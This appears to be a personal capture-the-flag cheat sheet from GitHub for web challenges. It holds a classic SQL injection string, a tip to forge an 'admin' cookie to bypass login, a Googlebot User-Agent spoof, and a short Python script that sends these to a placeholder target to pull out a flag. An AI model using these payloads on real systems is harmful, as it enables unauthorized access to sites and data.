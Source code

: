 # Ch34tsh33t
My CheatSheet


*Always check the Http method needed. Below are the list of HTTP Methods*
-POST
-GET
-PUT
-PATCH
-DELETE


*Using Google as secret-agent*
headers = {
	'User-Agent': 'Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)'
}


*If No Login was provided but Admin login is available*
Try using cookie "admin" set it to "true"



*SQL Injection"
' OR '1'='1' --







*Python Code To get http request*

#!/usr/bin/python

import requests
import re

params = {'user': 'test', 'password': 'test', 'submit': 'Sign In'}
jar = {'admin': 'True', 'password': '', 'username': ''}

r = requests.get('{TARGET IP}', data=params, cookies=jar)
source = r.text
print re.findall(r'(flag\{.+\})', source)[0]
